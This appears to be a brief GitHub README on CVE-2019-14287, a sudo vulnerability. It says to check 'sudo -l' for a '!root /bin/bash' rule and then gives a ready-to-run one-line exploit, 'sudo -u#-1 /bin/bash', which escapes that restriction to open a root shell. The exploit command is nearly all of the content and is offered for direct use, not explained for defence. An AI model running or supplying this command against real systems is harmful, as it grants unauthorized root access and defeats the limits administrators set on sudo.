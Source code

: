 # CVE 2019-14287
---
#### Source - https://www.exploit-db.com/exploits/47502

- Run sudo -l and if you find something like 
> **!root /bin/bash**
- here we can't run bin bash as sudo and theres a cve to escape from this and run as root.

##### Run the following to exploit it - 

```bash
sudo -u#-1 /bin/bash
```